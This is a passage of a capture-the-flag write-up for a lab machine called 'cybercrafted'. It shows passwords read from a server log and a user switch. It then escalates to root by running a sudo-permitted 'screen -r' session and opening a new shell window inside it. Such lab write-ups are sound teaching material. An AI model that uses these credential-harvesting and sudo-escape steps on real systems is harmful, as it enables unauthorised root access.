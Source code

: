 ```bash
[2021/06/27 11:57:54] cybercrafted logged in. PW: JavaEdition>Bedrock
[2021/06/27 11:58:38] [BUKKIT-SERVER] Startet LoginSystem!
[2021/06/27 11:58:46] cybercrafted logged in. PW: JavaEdition>Bedrock
[2021/06/27 11:58:52] [BUKKIT-SERVER] Startet LoginSystem!
[2021/06/27 11:59:01] madrinch logged in. PW: Password123
```
We got password for `cybercrafted` user. We can now switch user

### Shell as cybercrafted
Now we have shell as cybercrafted user
```bash
cybercrafted@cybercrafted:~$ id
uid=1002(cybercrafted) gid=1002(cybercrafted) groups=1002(cybercrafted)
cybercrafted@cybercrafted:~$ ls -la
total 32
drwxr-x--- 4 cybercrafted cybercrafted 4096 Sep 12 10:33 .
drwxr-xr-x 4 root         root         4096 Jun 27 17:50 ..
lrwxrwxrwx 1 root         root            9 Sep 12 10:33 .bash_history -> /dev/null
-rwxr-x--- 1 cybercrafted cybercrafted  220 Jun 27 13:33 .bash_logout
-rwxr-x--- 1 cybercrafted cybercrafted 3771 Jun 27 13:33 .bashrc
drwx------ 2 cybercrafted cybercrafted 4096 Sep 12 10:00 .cache
drwx------ 3 cybercrafted cybercrafted 4096 Sep 12 10:00 .gnupg
-rwxr-x--- 1 cybercrafted cybercrafted  807 Jun 27 13:33 .profile
-rw-r----- 1 cybercrafted cybercrafted   38 Jun 27 17:27 user.txt
```
Checking for sudo privileges,
```bash
cybercrafted@cybercrafted:~$ sudo -l
[sudo] password for cybercrafted: 
Matching Defaults entries for cybercrafted on cybercrafted:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cybercrafted may run the following commands on cybercrafted:
    (root) /usr/bin/screen -r cybercrafted
```
This user is allowed to run the command `/usr/bin/screen -r cybercrafted` with sudo. Screen is a windows manager for terminals much like tmux.
From the manpage of screen, here we are attaching to an existing session (`-r cybercrafted`).

Running the command dropped us in minecraft server console. Again from manpage, we found a way to spawn a new window with a shell
```bash
   ───────────────────────────────────────────────────────────────────────────────
       C-a c,             (screen)          Create a new  window  with  a  shell  and
       C-a C-c                              switch to that window.
   ───────────────────────────────────────────────────────────────────────────────
```
So running the command, and pressing shortcut keys `ctrl+a and c` we get the root shell
ROOT!!


